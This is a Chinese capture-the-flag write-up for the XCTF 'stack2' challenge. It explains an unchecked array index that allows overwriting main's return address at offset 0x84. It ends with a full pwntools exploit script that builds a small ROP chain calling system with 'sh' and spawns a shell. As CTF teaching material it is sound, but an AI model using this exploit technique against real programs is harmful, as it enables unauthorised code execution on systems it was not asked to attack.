






# 攻防世界: stack2

## **[目标]**
栈溢出 覆盖返回地址

## **[环境]**
Ubuntu

## **[工具]**
gdb、objdump、python、pwntools, IDA

## **[过程分析]**




发现没有对`v5`的大小进行限制，说明我们可以对栈上的数据进行任意访问。



发现一个`hackhere`的函数，我们可以将`main`函数的返回地址改成`hackhere`函数的地址。

- 确定数组首地址 与 返回地址 之间的偏移。

在0x080486D0下断点，查看寄存器edx的值 得到数组首地址。




在main函数结尾ret下一个断点，选择 5、exit 执行到这里查看栈顶的地址,得到返回地址所在的栈地址。



结果：





由上可知偏移为 0x84。

但是出题人在搭建docker环境时未注意，环境中只给了sh，在发现问题后考虑到题目依然可解就未再次更改环境。题目依然是简单的栈溢出，只不过不能直接跳转到getshell，需要简单的ROP一下。

贴一下2019师傅的exp：

```
from pwn import *
 
g_local=True
context.log_level='debug'
 
if g_local:
	sh = process('./stack2')#env={'LD_PRELOAD':'./libc.so.6'}
	gdb.attach(sh)
else:
	sh = remote('',)
 
def write_byte(off, val):
	sh.send("3\n")
	sh.recvuntil("which number to change:\n")
	sh.send(str(off) + "\n")
	sh.recvuntil("new number:\n")
	sh.send(str(val) + "\n")
	sh.recvuntil("5. exit\n")
 
def write_dword(off, val):
	write_byte(off, val & 0xff)
	write_byte(off + 1, (val >> 8) & 0xff)
	write_byte(off + 2, (val >> 16) & 0xff)
	write_byte(off + 3, (val >> 24) & 0xff)
 
def exit():
	sh.send("5\n")
	sh.interactive()
 
sh.recvuntil("How many numbers you have:\n")
sh.send("1\n")
sh.recvuntil("Give me your numbers\n")
sh.send("1\n")
sh.recvuntil("5. exit\n")
 
write_dword(0x84, 0x8048450)
write_dword(0x8C, 0x8048980 + 7)
exit()
```


## **[参考阅读]**

